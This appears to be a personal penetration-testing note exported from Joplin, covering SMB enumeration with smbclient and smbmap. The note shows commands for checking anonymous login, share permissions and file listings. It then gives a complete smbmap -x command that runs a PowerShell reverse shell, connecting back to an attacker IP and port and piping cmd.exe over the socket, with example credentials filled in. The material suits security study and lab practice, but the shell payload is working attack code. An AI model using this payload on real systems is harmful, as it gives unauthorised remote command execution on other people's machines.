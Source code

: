 Smbclient & smbMap

<ins>Smbclient</ins>

Check for anonymous login enabled: echo exit | smbclient -L \[ip\]

> smbclient -L 192.168.24.24

<ins>SmbMap</ins>

Check which permissions we have in those shares

> Smbmap -u &lt;user&gt; -H &lt;IP&gt;

Make sure to check if HTTP port available; Else putting the domain does not work. Have to only use 'localhost'

![93b6b241a8577baef7dafaca2c59fe1f.png](:/0c411b4305c44c48a50cc64aa0e81e00)

To enumerate files, use the -R option and state the folder to read

To obtain a shell in the target

```bash
smbmap -u jsmith -p 'R33nisP!nckle' -d ABC -h 192.168.2.50 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.153""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize ;$p=New-Object System.Diagnostics.Process ;$p.StartInfo.FileName=""""cmd.exe"""" ;$p.StartInfo.RedirectStandardInput=1 ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0 ;$p.Start() ;$is=$p.StandardInput ;$os=$p.StandardOutput ;Start-Sleep 1 ;$e=new-object System.Text.AsciiEncoding ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length) ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}} if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else { $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}} $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"
```

id: 597f35ab651443a59e302f043352a412
parent_id: 2e2257054f9c4980b2f1872f1d220424
created_time: 2022-01-16T08:10:29.971Z
updated_time: 2022-01-17T07:34:55.481Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-16T08:10:29.971Z
user_updated_time: 2022-01-17T07:34:55.481Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1